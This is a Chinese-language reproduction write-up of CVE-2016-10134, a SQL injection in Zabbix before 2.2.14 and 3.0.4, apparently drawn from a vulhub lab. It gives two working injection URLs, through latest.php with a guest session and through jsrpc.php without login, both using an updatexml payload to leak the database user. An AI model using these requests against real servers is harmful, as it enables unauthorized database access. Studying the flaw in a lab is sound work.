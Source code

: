 （CVE-2016-10134）Zabbix latest.php sql注入漏洞
===============================================

一、漏洞简介
------------

Zabbix2.2.14之前的版本和3.0.4之前的3.0版本中存在SQL注入漏洞。远程攻击者可借助`latest.php`文件中的`toggle_ids`数组参数利用该漏洞执行任意SQL命令。

二、漏洞影响
------------

Zabbix2.2.14之前的版本和3.0.4之前的3.0版本

三、复现过程
------------

访问`http://www.0-sec.org:8080`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

![1.png](resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId24.png)

将这16个字符作为sid的值，访问`http://www.0-sec.org:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：

![2.png](resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId25.png)

这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://www.0-sec.org:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![3.png](resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/zabbix/CVE-2016-10134/
